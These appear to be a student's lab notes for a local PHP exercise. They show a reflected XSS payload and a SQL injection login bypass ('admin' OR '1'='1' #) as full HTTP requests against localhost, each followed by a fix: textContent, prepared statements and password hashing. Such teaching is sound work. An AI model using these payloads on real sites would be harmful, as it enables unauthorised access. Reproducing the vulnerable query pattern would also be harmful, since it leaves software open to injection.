

to exploit xss in @xss.php search


```
GET /projects/3/xss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28%27cat%27%29%3E HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9,ar-EG;q=0.8,ar;q=0.7
Connection: keep-alive
Cookie: PHPSESSID=64odl464p4a0rsh7kv5hl91nns
Host: localhost
Referer: http://localhost/projects/3/xss.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

```


to prevent the xss
we shouldn't put user input into innerhtml
`output.innerHTML = "You searched for: " + q;`
instead put it in testcontent
`output.textContent = "You searched for: " + q;`
as in @NOTxss.php

---

to exploit sqli in @sqli.php

username = `admin' OR '1'='1' #`
password = `anything`

```
POST /projects/3/sqli.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9,ar-EG;q=0.8,ar;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=64odl464p4a0rsh7kv5hl91nns
Host: localhost
Origin: http://localhost
Referer: http://localhost/projects/3/sqli.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

username=admin'+OR+'1'='1'+#&password=1

```

it happens cuz
$sql = "select * from users where username = '$username' AND password = '$password'";
put the input direct in query
instead

`$sql = mysqli_prepare($conn, "select * from users where username = ? AND password = ?");
mysqli_stmt_bind_param($sql, "ss", $username, $password)
mysqli_stmt_execute($sql);
$result = mysqli_stmt_get_result($sql);
`
to treat the input as data
and also hashing the password before storing in the DB

`password_hash($password, PASSWORD_DEFAULT);
password_verify($password, $hash);`

like in fixed version @NOTsqli.php
